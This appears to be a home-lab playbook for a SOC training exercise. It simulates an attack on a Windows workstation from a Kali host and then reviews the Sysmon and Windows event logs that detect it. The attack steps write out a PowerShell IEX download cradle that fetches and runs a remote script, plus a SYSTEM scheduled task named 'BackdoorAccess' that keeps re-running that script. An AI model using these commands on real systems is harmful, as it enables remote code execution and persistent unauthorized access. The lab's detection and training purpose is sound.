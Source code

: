 # Active Directory Attack Playbook (PowerShell Download Cradle and Backdoor Establishment)

## Overview

- **Target:** Windows Workstation (within the soc.lab domain)

  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB

- **Attacker:** Kali

  - **IP Address:** 192.168.20.30

## Objective

The objective of this one is to use a PowerShell Download Cradle to deliver a malicious payload from kali to the target Windows user. This payload will simulate establishing a persistent backdoor for remote access, to then do basically what ever we want.

## Attack Execution Timeline

1. **Set Up the Malicious Payload on Kali**

   - Created a simple PowerShell payload to simulate malware activity and establish a persistent backdoor:

   ```bash
   echo 'Write-Output "Malware Simulation Active"; Start-Sleep -s 300' > /var/www/html/malicious.ps1
   sudo systemctl start apache2
   ```

   - Verified that the web server is hosting the payload:

   ```bash
   curl http://192.168.20.30/malicious.ps1
   ```



2. **Execute the PowerShell Download Cradle on Windows**

   - On the Windows Workstation (192.168.10.20), ran the following PowerShell command to download and execute the payload in memory:

   ```powershell
   powershell -exec bypass -NoProfile -Command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.20.30/malicious.ps1')"
   ```



3. **Establishing Persistent Access**

   - Created a scheduled task to maintain access:

   ```powershell
   $action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument "-exec bypass -NoProfile -Command IEX(New-Object Net.WebClient).DownloadString('http://192.168.20.30/malicious.ps1')"
   $trigger = New-ScheduledTaskTrigger -AtStartup
   Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "BackdoorAccess" -User "NT AUTHORITY\SYSTEM"
   ```



## Monitoring Windows Logs

### Sysmon Logs Analysis

- **Observation:**
  - **Event ID 1**: Process Creation – Captured the execution of `powershell.exe` with the malicious download cradle.

  - **Event ID 3**: Network Connection – Logged outbound HTTP requests to `192.168.20.30` during the payload retrieval.


### Windows Security Logs

- **Event ID 4688 – Process Creation**

  - Recorded the creation of a PowerShell process executing the download cradle.

- **Event ID 4698 – Scheduled Task Creation**

  - Detected the registration of a scheduled task named `BackdoorAccess` using `powershell.exe`.



### Detailed User Log Analysis

- **User Activity:**

  - Logs show PowerShell execution under the context of `NT AUTHORITY\SYSTEM`.

  - The payload was executed immediately after the task creation event.

  - **User SYSTEM:**



- **Logoff Event:**

  - No immediate logoff event detected, indicating persistent access.

## Cleanup

1. **Remove the Backdoor Task**

   ```powershell
   Unregister-ScheduledTask -TaskName "BackdoorAccess" -Confirm:$false
   ```

2. **Stop the Apache Server on Kali**

   ```bash
   sudo systemctl stop apache2
   ```

